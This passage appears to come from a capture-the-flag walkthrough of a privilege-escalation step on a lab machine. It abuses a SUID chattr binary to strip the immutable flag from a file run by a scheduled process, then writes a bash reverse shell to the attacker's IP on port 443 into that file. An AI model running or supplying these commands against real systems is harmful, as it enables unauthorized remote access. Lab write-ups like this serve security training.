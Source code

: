 ![shelldredd process](../../assets/images/zerotrace/shelldreddprocess.png)

```raw
CMD: UID=1003  PID=1475  | /bin/sh -c /bin/bash /opt/.nobodyshouldreadthis/destiny
```

When examining the `destiny` binary, it seems we can modify it and it doesn't contain any script, so that process is probably showing an error. However, when trying to modify it, we won't be able to because it has the immutable flag of the EXT filesystem special attributes.

```bash
lsattr /opt/.nobodyshouldreadthis/destiny
```

![destiny inmutable](../../assets/images/zerotrace/inmutable.png)

We use the `chattr` binary with SUID permissions to remove the immutable flag.

```bash
chattr -i /opt/.nobodyshouldreadthis/destiny
```

![destiny no inmutable](../../assets/images/zerotrace/inmutable2.png)

Now we can modify the `destiny` file, adding a reverse shell that points to our attacking machine on port 443.

```bash
echo 'bash -i >& /dev/tcp/192.168.1.181/443 0>&1' > /opt/.nobodyshouldreadthis/destiny
```
